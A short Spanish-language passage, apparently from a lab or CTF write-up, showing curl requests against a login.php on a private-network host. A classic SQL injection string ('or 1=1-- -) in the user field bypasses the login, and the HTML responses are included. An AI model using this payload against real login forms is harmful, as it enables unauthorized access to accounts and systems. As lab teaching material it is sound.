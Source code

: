 lo primero mandamos una peticion con curl y vemos si hacemos bien la petición:
```bash
curl -X POST http://192.168.1.45/login.php \                                                                                                                                                                 
-d "user=lala" \
-d "pass=x"  
```
respuesta:
```
<pre style='color:#00ff00;'>Acceso denegado.</pre>

<style>


body {
    background-color: black;
    color: #00ff00;
    font-family: 'Courier New', Courier, monospace;
    text-align: center;
    margin-top: 100px;
}

.matrix-container {
    display: inline-block;
    background-color: rgba(0, 255, 0, 0.1);
    padding: 40px;
    border: 2px solid #00ff00;
    border-radius: 10px;
}

</style>
```
acceso denegado, sabemos que la data se envía bien, probamos la inyección sql:
```bash
curl -X POST http://192.168.1.45/login.php \                                                                                                                                                                        
-d "user='or 1=1-- -" \
-d "pass=x"
```
```
<pre style='color:#00ff00;'>Acceso concedido. Bienvenido, 'or 1=1-- -.</pre>

<style>


body {
    background-color: black;
    color: #00ff00;
    font-family: 'Courier New', Courier, monospace;
    text-align: center;
    margin-top: 100px;
}

.matrix-container {
    display: inline-block;
    background-color: rgba(0, 255, 0, 0.1);
    padding: 40px;
    border: 2px solid #00ff00;
    border-radius: 10px;
}

</style>
```
